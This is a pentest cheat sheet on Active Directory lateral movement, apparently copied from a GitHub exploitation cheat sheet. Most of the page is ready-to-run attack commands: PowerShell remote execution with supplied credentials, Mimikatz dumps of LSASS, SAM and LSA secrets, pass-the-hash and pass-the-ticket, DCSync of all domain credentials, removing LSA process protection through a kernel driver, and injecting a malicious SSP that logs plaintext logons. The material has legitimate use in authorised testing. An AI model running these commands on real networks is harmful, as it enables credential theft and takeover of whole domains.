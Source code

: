 # Active Directory Lateral Movement

## Lateral Movement

### Powershell Remoting

Enable Powershell Remoting on current Machine \(Needs Admin Access\)

```text
Enable-PSRemoting
```

Entering or Starting a new PSSession \(Needs Admin Access\)

```text
$sess = New-PSSession -ComputerName <Name>
Enter-PSSession -ComputerName <Name> OR -Sessions <SessionName>
```

### Remote Code Execution with PS Credentials

```text
$SecPassword = ConvertTo-SecureString '<Wtver>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\<WtverUser>', $SecPassword)
Invoke-Command -ComputerName <WtverMachine> -Credential $Cred -ScriptBlock {whoami}
```

#### Import a powershell module and execute its functions remotely

Execute the command and start a session

```text
Invoke-Command -Credential $cred -ComputerName <NameOfComputer> -FilePath c:\FilePath\file.ps1 -Session $sess
```

Interact with the session

```text
Enter-PSSession -Session $sess
```

#### Executing Remote Stateful commands

Create a new session

```text
$sess = New-PSSession -ComputerName <NameOfComputer>
```

Execute command on the session

```text
Invoke-Command -Session $sess -ScriptBlock {$ps = Get-Process}
```

Check the result of the command to confirm we have an interactive session

```text
Invoke-Command -Session $sess -ScriptBlock {$ps}
```

### Mimikatz

This commands are in cobalt strike format!

Dump LSASS:

```text
mimikatz privilege::debug
mimikatz token::elevate
mimikatz sekurlsa::logonpasswords
```

\(Over\) Pass The Hash

```text
mimikatz privilege::debug
mimikatz sekurlsa::pth /user:<UserName> /ntlm:<> /domain:<DomainFQDN>
```

List all available kerberos tickets in memory

```text
mimikatz sekurlsa::tickets
```

Dump local Terminal Services credentials

```text
mimikatz sekurlsa::tspkg
```

Dump and save LSASS in a file

```text
mimikatz sekurlsa::minidump c:\temp\lsass.dmp
```

List cached MasterKeys

```text
mimikatz sekurlsa::dpapi
```

List local Kerberos AES Keys

```text
mimikatz sekurlsa::ekeys
```

Dump SAM Database

```text
mimikatz lsadump::sam
```

Dump SECRETS Database

```text
mimikatz lsadump::secrets
```

Inject and dump the Domain Controler's Credentials

```text
mimikatz privilege::debug
mimikatz token::elevate
mimikatz lsadump::lsa /inject
```

Dump the Domain's Credentials without touching DC's LSASS and also remotely

```text
mimikatz lsadump::dcsync /domain:<DomainFQDN> /all
```

List and Dump local kerberos credentials

```text
mimikatz kerberos::list /dump
```

Pass The Ticket

```text
mimikatz kerberos::ptt <PathToKirbiFile>
```

List TS/RDP sessions

```text
mimikatz ts::sessions
```

List Vault credentials

```text
mimikatz vault::list
```

What if mimikatz fails to dump credentials because of LSA Protection controls? 

* LSA as a Protected Process \(Kernel Land Bypass\)

Check if LSA runs as a protected process by looking if the variable "RunAsPPL" is set to 0x1

```text
reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa
```

Next upload the mimidriver.sys from the official mimikatz repo to same folder of your mimikatz.exe Now lets import the mimidriver.sys to the system

```text
mimikatz # !+
```

Now lets remove the protection flags from lsass.exe process

```text
mimikatz # !processprotect /process:lsass.exe /remove
```

Finally run the logonpasswords function to dump lsass

```text
mimikatz # sekurlsa::logonpasswords
```

* LSA as a Protected Process \(Userland Land "Fileless" Bypass\)
  * [PPLdump](https://github.com/itm4n/PPLdump)
  * [Bypassing LSA Protection in Userland](https://blog.scrt.ch/2021/04/22/bypassing-lsa-protection-in-userland)
* LSA is running as virtualized process \(LSAISO\) by Credential Guard

Check if a process called lsaiso.exe exists on the running processes

```text
tasklist |findstr lsaiso
```

If it does there isn't a way tou dump lsass, we will only get encrypted data. But we can still use keyloggers or clipboard dumpers to capture data. Lets inject our own malicious Security Support Provider into memory, for this example i'll use the one mimikatz provides

```text
mimikatz # misc::memssp
```

Now every user session and authentication into this machine will get logged and plaintext credentials will get captured and dumped into c:\windows\system32\mimilsa.log

* [Detailed Mimikatz Guide](https://adsecurity.org/?page_id=1821)
* [Poking Around With 2 lsass Protection Options](https://medium.com/red-teaming-with-a-blue-team-mentaility/poking-around-with-2-lsass-protection-options-880590a72b1a)

#### Useful Tools

* [Powercat](https://github.com/besimorhino/powercat) netcat written in powershell, and provides tunneling, relay and portforward 

  capabilities.

* [SCShell](https://github.com/Mr-Un1k0d3r/SCShell) fileless lateral movement tool that relies on ChangeServiceConfigA to run command
* [Evil-Winrm](https://github.com/Hackplayers/evil-winrm) the ultimate WinRM shell for hacking/pentesting
* [RunasCs](https://github.com/antonioCoco/RunasCs) Csharp and open version of windows builtin runas.exe

## References

This was extracted from here:

{% embed url="https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet/blob/master/README.md\#lateral-movement" %}



